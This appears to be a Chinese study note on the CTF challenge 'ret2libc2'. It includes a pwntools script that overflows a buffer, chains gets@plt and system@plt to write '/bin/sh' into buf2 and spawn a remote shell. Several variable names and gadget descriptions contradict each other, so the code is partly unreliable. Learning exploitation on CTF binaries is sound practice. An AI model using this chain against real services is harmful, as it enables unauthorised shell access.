 方法一：宏观思路：用我们的 `gets()` 函数来直接写入。
方法 2：用我们的 `sh` 来代替我们的 `/bin/sh`
1. 我们用我们的 IDA 打开我们的程序，我们能够发现如下所示的代码
![[Pasted image 20231203213217.png]]
2. 我们发现，我们是存在一次对我们 `system` 函数的调用，于是我们考虑使用我们的 `ret2libc` 来进行操作，我们先 copy 一下我们例题 1 的脚本。

3. 执行后，我们发现，我们的对应函数并没有我们的 `\bin\sh` 的对应片段，这个时候，我们就需要我们自己构造我们的 `\bin\sh`.
4. 然后，我们考虑向我们的什么地方写入我们的 `\bin\sh`,我们首先，我们可以考虑我们的栈，但是因为我们**随机化载入**，我们这么做不太稳定。
5. 此时，我们就需要向我们的 bss（未初始化或初始化为 0 的全局变量和静态变量的区域） 写入我们的 `\bin\sh`,我们的操作如下：
1. 找到我们的全局变量 bss 所在的段
![[Pasted image 20231203213952.png]]

2. 修改我们的对应的 bss 段数据，其实这里，我们要做的，也只是在我们的语句前面多加入一个 `gets(buf2)` 而已
![[Pasted image 20231203214548.png]]

payload 构造流程：
1. 计算我们垃圾数据的个数，
2. 从我们的 IDA 中，得到我们的 `gets@plt`, `system@plt`,
3. 从我们的 IDA 中，得到哦我们的 `buf2` 的地址，
![[Pasted image 20231203215048.png]]
然后我们的构造就是：
垃圾数据+ `puts@plt` + `system@plt` + `buf2` 地址+ `buf2` 地址

```python
from pwn import *
io=remote("",00000);
elf=ELF("./ret2libc2");
# elf.symbols["buf2"];//获取我们buf2的地址
buf=elf.symbols["buf2"];
gets_plt=elf.plt["gets"];
system_plt=elf.plt["system"];
io.recv();
payload=112*b'a'+p32(gets_plt)+p32(system_plt)+p32(buf2)+p32(buf2)
io.sendline(payload);
io.sendline(b"/bin/sh\x00");
io.interactive();
```

此外，我们的 `payload` 的构造，还可采用我们的
```python
payload=([b'a'*112,get_plt,pop_ebx,buf2,system_plr,0xdeadbeef,buf2])
```
这里，我们的攻击仍然是可以成功的，因为我们再执行我们的 `get_plt` 后，我们再去执行我们的 `pop_ebx`,就能够平衡我们的栈。

这里的原理在于：我们用完就扔，在我们不断向后读取的过程中，我们的 `foo@plt`,和我们的参数之间的段，如果执行的操作是把我们的 `foo` 的参数给清理掉，那么我们就可以用这一条函数来**平衡我们的栈**。不出所料，这里我们最为合适的函数就是我们的 `pop ebp`。


